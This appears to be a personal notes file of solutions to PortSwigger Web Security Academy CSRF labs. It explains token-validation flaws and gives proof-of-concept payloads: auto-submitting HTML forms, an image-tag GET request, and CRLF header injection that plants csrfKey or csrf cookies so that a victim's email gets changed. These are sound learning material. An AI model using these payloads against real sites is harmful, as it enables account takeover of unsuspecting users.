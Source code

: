 # CSRF

- https://portswigger.net/web-security/csrf/bypassing-token-validation
- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses
- https://portswigger.net/web-security/csrf#how-to-construct-a-csrf-attack
- https://tools.nakanosec.com/csrf/

## CSRF vulnerability with no defenses

Check email change request using burp and generate csrf form using https://tools.nakanosec.com/csrf/

Due to https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests:

```
Some requests don't trigger a CORS preflight. Those are called simple requests from the obsolete CORS spec, though the Fetch spec (which now defines CORS) doesn't use that term.

The motivation is that the <form> element from HTML 4.0 (which predates cross-site XMLHttpRequest and fetch) can submit simple requests to any origin, so anyone writing a server must already be protecting against cross-site request forgery (CSRF).
```

So it is prefered to use `<form>` because it "bypasses" `CORS`

```
<html>
	<body>
		<form method="POST" action="https://0a8200510435839080008f1a003a008d.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token validation depends on request method

Application allow changing email via GET request and does not validate CSRF tokens in GET requests.

Deliver to victim:
```
<img src="https://0afd00f40477303a87a067c200da00ec.web-security-academy.net/my-account/change-email?email=pwned%40email.com" alt="Cute-cats.png"/>
```
## CSRF where token validation depends on token being present

Application skip CSRF token check if there is no token present.

Create request changing email and generate PoC CSRF form:

```
<html>
	<body>
		<form method="POST" action="https://0a9f00220461d3ad80b049b6001d00c8.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token is not tied to user session

Perform GET request to a page with CSRF token as logged in user and copy its value. (here it is `A1tFmT23frESJoZoNOABO3sECg3JY4gM`)

After that CSRF for any other user can be performed using our token.

Deliver this to victim:

```
<html>
	<body>
		<form method="POST" action="https://0aa700cd040785e182702e4600470008.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
            <input type="hidden" name="csrf" value="A1tFmT23frESJoZoNOABO3sECg3JY4gM"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token is tied to non-session cookie

CSRF tokens are separated from session, but tied to different cookie `csrfKey`. Only supplying valid `csrf token` generated for provided `csrfKey` will result in a success.

Accessing a page with a form we generate valid `csrf token` for our `csrfKey`.

Application contains cookie named `LastSearchTerm` which we can make us of in order to change `csrfKey` cookie of the victim. `LastSearchTerm` value is reflected to the response, so making a specific request will change `csrfKey` cookie.

Normal response
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=A; Secure; HttpOnly
```

Our request with payload:
```
https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n%3b%20SameSite=None
```

Resulting response:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n; SameSite=None; Secure; HttpOnly
```

Deliver this payload with our pre-created `csrf` value generated with provided `csrfKey` cookie to the victim to change their email:
```
<html>
	<body>
        <!-- Perform changin csrfKey GET request -->
        <img src="https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n%3b%20SameSite=None" alt="Redirecting..."/>  
		
        <form method="POST" action="https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
            <input type="hidden" name="csrf" value="5w3aESh30qnR4UNhe3EEcLsDfvRSdl8s"/>
		</form>
        <script>
            <!-- Wait until csrfKey is changed and make a POST request changing email -->
            window.addEventListener("load", ()=>{
                document.forms[0].submit()
            })
        </script>
	</body>
<html>
```

Other interesting proposition from solution to replace listening for load event:
```
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

## CSRF where token is duplicated in cookie

Similarly to previous lab we can set the cookie for the user making a get request:
```
https://0a6d00910467fbba83795ae0001e0069.web-security-academy.net/?search=A%0d%0aSet-Cookie:+csrf=CustomCSRFToken;%20SameSite=None
```

Now as we know the value of `csrf` cookie (because we set it), we can bypass `double submit` csrf protection and make a request with our `CustomCSRFToken` in the body (as the cookie with the same value will be sent along).

Sent this payload to the victim:
```
<html>
	<body>
        <!-- Perform changing csrf cookie GET request -->
        <img src="https://0a6d00910467fbba83795ae0001e0069.web-security-academy.net/?search=A%0d%0aSet-Cookie:+csrf=CustomCSRFToken;%20SameSite=None" alt="Redirecting...">

		<form method="POST" action="https://0a6d00910467fbba83795ae0001e0069.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="hidden" name="csrf" value="CustomCSRFToken"/>
		</form>

        <script>
            <!-- Wait until csrf cookie is changed and make a POST request changing email -->
            window.addEventListener("load", ()=>{
                document.forms[0].submit()
            })
        </script>
	</body>
<html>
```

Other interesting proposition from solution to replace listening for load event:
```
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

